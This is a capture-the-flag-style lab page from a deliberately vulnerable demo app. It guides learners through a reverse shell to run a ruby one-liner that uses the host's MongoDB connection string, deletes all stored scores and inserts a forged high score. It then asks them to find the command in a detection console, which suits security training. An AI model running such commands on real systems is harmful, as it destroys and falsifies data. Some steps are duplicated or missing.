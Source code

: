 # 🔥 Vulnerable Labs: Updating High Scores!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to construct ruby code to update high scores in the Mongo Database.

In situations where there are constraints on the ability to install additional tools (such as applicaton whitelisting) attackers 
pivot to Living Off The Land (LOTL) techniques. In this case you'll execute your own ruby code to update the MongoDB with a new high score.

This could extend to other situations, like interacting with other non-public resources that are accessible from the compromised host 
e.g., on-premises resources over a VPN, Direct Connect, or Express Route. 



### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a text editor / notepad and open the file [webserver.rb](../web/webserver.rb).
3. Copy from line 3:
```ruby 
require 'mongo'; 
```
4. Copy from line 25:
```ruby 
client = Mongo::Client.new(ENV['MONGODB_CONN']);
```
5. Copy from line 25:
```ruby 
client = Mongo::Client.new(ENV['MONGODB_CONN']);
```
6. Copy from line 26:
```ruby
scores_collection = db[:player_scores];
```
7. Append the following (change the name if you like):
```ruby
scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000});
```
8. Prepend the start of the command with:
```ruby
ruby -e "
```
9. Append the following to the end of the command:
```ruby
"
```
10. Ensure your final command looks like:
```ruby
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```

11. Check the reverse shell is still active and run the command:
```bash
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```
12. A successful execution will return a result similar to:
```bash
<insert_one({\"player\":\"Alice\",\"score\":1000}) 
```
13. Browse to the webserver_IP and check your high score. 

Congratulations, you've completed this challenge. Can you now find the command you executed in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

- We need to put a semicolon ; after each command. The semicolon is the equivalent to a linebreak when compiled and executed by the ruby interpreter. 